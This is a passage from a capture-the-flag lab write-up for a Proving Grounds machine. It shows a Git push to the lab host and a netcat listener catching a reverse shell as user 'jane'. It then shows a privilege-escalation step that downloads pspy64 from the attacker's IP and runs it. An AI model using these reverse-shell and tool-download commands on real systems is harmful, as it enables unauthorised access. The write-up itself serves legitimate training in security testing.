 ```bash
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 README.md

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git remote add origin http://assignment.pg:8000/jane/test1.git

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/linux/assignment]
└─$ git push -u origin master
Username for 'http://assignment.pg:8000': jane
Password for 'http://jane@assignment.pg:8000':
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 202 bytes | 202.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.198.224] 40296
sh: 0: can't access tty; job control turned off
$ id
uid=1000(jane) gid=1000(jane) groups=1000(jane)
$
```

![reverse](../../../assets/images/ctfs/proving_grounds/assignment/reverse.png)

# Privesc

## Check Running Processes

Upload pspy64 to target

```bash
ane@assignment:/tmp$ wget http://192.168.45.245:8000/pspy64
wget http://192.168.45.245:8000/pspy64
--2024-01-26 04:16:29--  http://192.168.45.245:8000/pspy64
Connecting to 192.168.45.245:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  2.31MB/s    in 1.3s

2024-01-26 04:16:30 (2.31 MB/s) - ‘pspy64’ saved [3104768/3104768]

jane@assignment:/tmp$ chmod +x pspy64
chmod +x pspy64
jane@assignment:/tmp$ ./pspy64
./pspy64
```

